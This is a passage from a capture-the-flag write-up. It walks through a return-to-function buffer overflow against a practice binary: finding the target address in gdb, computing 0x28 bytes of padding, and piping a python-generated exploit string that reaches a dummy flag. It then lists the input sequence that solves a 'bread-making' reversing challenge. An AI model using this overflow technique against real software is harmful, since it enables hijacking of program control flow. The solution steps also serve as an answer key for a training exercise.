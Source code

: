 ```
(gdb) print super_generic_flag_reading_function_please_ret_to_me
$2 = {<text variable, no debug info>} 0x4011f6 <super_generic_flag_reading_function_please_ret_to_me>
```

Now we're ready to craft a string that exploits the program and runs the secret
function!

```
a0a1a2a3a4a5a6a7a8a9b0b1b2b3b4b5b6b7b8b9c0c1c2c3 <- original
                                        c0c1c2c3 <- ends up in $rsp
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa         <- padding ( 0x28 * 'a' )

  c 0 c 1 c 2 c 3  <- ends up in $rsp
  3 c 2 c 1 c 0 c  <- reverse
0x3363326331633063 <- reverse (hex)
0x00000000004011f6 <- pointer we want in $rsp
  f611400000000000 <- reverse
  \xf6\x11\x40\x00\x00\x00\x00\x00 <- python bytestring

exploit string:
b'a' * 0x28 + b'\xf6\x11\x40\x00\x00\x00\x00\x00'
```

Now let's try it in an environment-less shell:

```
python3 -c "import sys; sys.stdout.buffer.write(b'a' * 0x28 + b'\xf6\x11\x40\x00\x00\x00\x00\x00')" | ./ret2generic-flag-reader
alright, the rob inc company meeting is tomorrow and i have to come up with a new pwnable...
how about this, we'll make a generic pwnable with an overflow and they've got to ret to some flag reading function!
slap on some flavortext and there's no way rob will fire me now!
this is genius!! what do you think?
flag{this_is_a_dummy_flag_go_solve_it_yourself}

Segmentation fault (core dumped)
sh-5.1$
```

### rev/bread-making

For this challenge, I first tried using iaito again to do some program flow
analysis. After giving up on that, I decided to instead brute-force the correct
steps by hand. This was a very long and boring process.

First I used `strings` again to extract all the dialogue and user input strings
from the binary. Then I filtered them to not include obvious dialogue, but only
the possible user input strings. And this is the correct path that gives the
flag:

```
add flour
add salt
add yeast
add water
hide the bowl inside a box
wait 3 hours
work in the basement
preheat the toaster oven
set a timer on your phone
watch the bread bake
pull the tray out with a towel
open the window
unplug the oven
unplug the fire alarm
wash the sink
```